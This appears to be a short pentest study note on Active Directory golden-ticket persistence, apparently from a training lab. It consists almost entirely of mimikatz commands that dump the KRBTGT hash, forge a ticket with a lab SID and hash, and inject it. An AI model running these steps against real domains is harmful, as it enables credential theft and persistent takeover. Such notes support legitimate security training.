 #activedirectory #persiatance 

#### Extract the KRBTGT Hash

```mimikatz
privilege::debug
```

```mimikatz
lsadump::lsa /patch
```

🔴 After obtaining the hash creating and injecting the golden ticket to memory does not require admin privileges

#### Create a ticket

```mimikatz
kerberos::purge
```

```mimikatz
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
```

```mimikatz
misc::cmd
```

🔴You wont be able to use IP to connect because it forces NTLM authentication